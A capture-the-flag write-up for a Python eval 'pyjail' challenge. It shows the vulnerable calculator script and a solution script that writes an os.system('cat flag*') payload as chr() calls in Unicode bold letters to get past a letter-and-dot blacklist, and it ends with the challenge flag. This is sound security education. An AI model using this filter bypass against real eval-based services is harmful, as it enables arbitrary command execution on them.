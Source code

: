 #### Challenge:

Heard that eval is dangerous and made sure it is secure this time.

[calculator.zip](./calculator.zip ":ignore")

---

#### Solution:

We are given `python script` (with `Dockerfile` to see the infra part) containing `pyjail`:

```python
import sys

print("This is a calculator")

inp = input("Formula: ")

sys.stdin.close()

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ."

if any(x in inp for x in blacklist):
    print("Nice try")
    exit()

fns = {
    "pow": pow
}

print(eval(inp, fns, fns))
```

We need to break out from `eval()` and print contents of the flag file, but the catch is, there is a blacklist of all the upper and lower case letters and `dot`. Luckily I found a writeup on the net that bypassed similar situation using `UTF-8` letters in bold or italic, that python has no problem interpreting as their normal counterparts. To bypass the dot (and also because not all of Python constructs behave correctly when in `UTF-8`) I encoded the whole payload in `chr()` and and wrapped it in mathematical bold `eval()` ().

```python
#!/usr/bin/python

import string

## Mathematical bold script letters
mat_b_letters = ''.join([chr(x) for x in range(0x1D4D0, 0x1D503 + 1)])
ascii_letters = string.ascii_uppercase + string.ascii_lowercase
trans_table   = ascii_letters.maketrans(ascii_letters, mat_b_letters)

text = '__import__("os").system("cat flag*")'

encoded_text=""
for x in text:
    encoded_text = encoded_text + f"chr({ord(x)})+"
encoded_text = encoded_text[:-1]

encoded_text=f'eval({encoded_text})'

## Change to UTF-8 letter
print(encoded_text.translate(trans_table))

## To test run:
# sudo docker build -t calc1 .
# sudo docker run -p 1337:1337 calc1
# python3 calc1.py | nc 127.0.0.1 1337
```

---

<details><summary>FLAG:</summary>

```
TFCCTF{18641f40c9beac02ceeaf87db851c386}
```

</details>
<br/>
